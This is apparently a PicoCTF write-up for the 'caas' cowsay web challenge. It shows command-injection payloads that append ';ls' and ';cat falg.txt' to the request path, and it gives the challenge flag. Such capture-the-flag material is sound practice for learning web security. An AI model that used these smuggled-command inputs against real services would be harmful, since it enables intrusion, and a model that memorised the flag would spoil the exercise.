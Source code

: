 # WriteUp PicoCTF

# caas - Web Exploition

## Statement

<img src="caas.jpg" alt="challenge caas" width="300" height="300"/>

Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

## Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

![](Images/caas1.png)

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

Images/caas2.png)

## Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**